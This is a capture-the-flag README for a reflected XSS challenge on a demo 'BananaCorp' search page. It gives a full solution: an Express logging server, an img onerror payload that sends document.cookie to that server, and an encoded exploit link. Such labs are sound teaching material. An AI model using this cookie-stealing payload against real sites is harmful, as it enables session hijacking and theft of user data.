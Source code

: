 # Web Exploitation (XSS)

## Challenge

### Operation Sweet Tooth

#### Incident Report #457

BananaCorp, a leading digital pastry delivery startup, recently reported suspicious activities on their customer portal. Our security team discovered their search functionality might be exposing sensitive customer data. Your mission is to verify this vulnerability.

**Target System**: [https://bananafish-node-xss-challenge.vercel.app](https://bananafish-node-xss-challenge.vercel.app)

#### Mission Objectives

Security has tasked you with answering these critical questions:

1. How does BananaCorp's search system process special characters?
2. Could an attacker potentially harvest customer session data?
3. Demonstrate a proof-of-concept that exposes this vulnerability

#### Intelligence Briefing

Our reconnaissance has uncovered these crucial details:

1. The search bar seems to reflect input directly into the page - look closely at how it handles HTML tags
2. Consider setting up a "catch station" (local server) to intercept any data you might discover. All field agents should be ready to receive intel
3. When testing the target system, remember: failed image loads trigger defensive protocols. This could be useful...

#### Priority Level: HIGH

Our customers' dessert preferences must remain confidential! 

## Challenge Solution

### Vulnerable Site

[Link Live](https://bananafish-node-xss-challenge.vercel.app)

If there are no cookies in your browser's cookie jar, set some cookies using the following code in your browser's Console:

```js
document.cookie = "name=JohnDoe; SameSite=Script; path=/";
```

### Step 2: Create a Node Server

Create a Node server to log any valuable information obtained from the XSS attack.

```js
var express = require('express');
var app = express();

app.use(function(req, res, next) {
	res.header('Access-Control-Allow-Origin', '*');
	next();
});

app.get('/cookie', function(req, res, next) {
	console.log('GET /cookie');
	console.log(req.query.data);
	res.send('Thanks for Your Data (*_*)!');
});

app.listen(3001, function() {
	console.log('Logger Server listening at localhost:3001');
});
```

### Step 3: Run the Node Server Locally

Run the server locally with the following command:

```bash
# run the server locally
node logger-server.js
```

### Step 4: Exploit the XSS Vulnerability

Use the following HTML code with the XSS vulnerability to steal the session cookie:

```html
<!-- Actual HTML Code -->
<img src="does-not-exist" onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie; document.querySelector('body').appendChild(img);">
```

### Step 5: Encode the HTML Code

Encode the above HTML code and use it as the search query:

```js
encodeURIComponent('<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">');
```

Alternatively, you can use [this link](https://bananafish-node-xss-challenge.vercel.app/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement('img')%3B%20img.src%20%3D%20'http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D'%20%2B%20document.cookie%3B%20document.querySelector('body').appendChild(img)%3B%22%3E).

![Example 2](images/example-2.png)

### Step 6: Verify the Data

Check the terminal window of the evil server. If you can see the cookie data, then it's a win.

![Result](images/result.png)

---
---